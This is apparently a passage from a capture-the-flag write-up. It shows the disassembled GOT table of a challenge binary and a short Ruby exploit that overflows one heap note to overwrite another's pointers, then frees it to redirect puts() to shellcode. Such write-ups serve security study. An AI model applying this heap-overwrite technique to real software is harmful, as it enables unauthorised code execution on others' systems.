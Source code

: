 ```
<span class="Statement">.got.plt</span>:0<span class="Constant">804A000</span> <span class="Identifier">off_804A000</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">read</span>          <span class="Comment">; DATA XREF: _readr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A004</span> <span class="Identifier">off_804A004</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">fflush</span>        <span class="Comment">; DATA XREF: _fflushr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A008</span> <span class="Identifier">off_804A008</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">puts</span>          <span class="Comment">; DATA XREF: _putsr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A00C</span> <span class="Identifier">off_804A00C</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">__gmon_start__</span> <span class="Comment">; DATA XREF: ___gmon_start__r</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A010</span> <span class="Identifier">off_804A010</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">exit</span>          <span class="Comment">; DATA XREF: _exitr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A014</span> <span class="Identifier">off_804A014</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">__libc_start_main</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A014</span>                                         <span class="Comment">; DATA XREF: ___libc_start_mainr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A018</span> <span class="Identifier">off_804A018</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">__isoc99_scanf</span> <span class="Comment">; DATA XREF: ___isoc99_scanfr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A01C</span> <span class="Identifier">off_804A01C</span>     <span class="Identifier">dd</span> <span class="Identifier">offset</span> <span class="Identifier">sbrk</span>          <span class="Comment">; DATA XREF: _sbrkr</span>
<span class="Statement">.got.plt</span>:0<span class="Constant">804A01C</span> <span class="Identifier">_got_plt</span>        <span class="Identifier">ends</span>
```

Ultimately, it doesn't matter which one I overwrite, as long as it gets called at some point. So, I chose puts(). The exploit code is pretty simple:

```

<span class="Comment"># These are used to overwrite arbitrary memory</span>
writer = add_note(<span class="Constant">4</span>)
owned  = add_note(<span class="Constant">4</span>)

<span class="Comment"># Overwrite the second note's pointers, via the first</span>
edit_note(writer, <span class="Constant">24</span>, (<span class="Special">"</span><span class="Constant">A</span><span class="Special">"</span> * <span class="Constant">16</span>) + [<span class="Type">SHELLCODE_ADDRESS</span>, <span class="Type">PUTS_ADDRESS</span> - <span class="Constant">4</span>].pack(<span class="Special">"</span><span class="Constant">II</span><span class="Special">"</span>))

<span class="Comment"># Removing it will trigger the overwrite</span>
remove_note(owned)
```
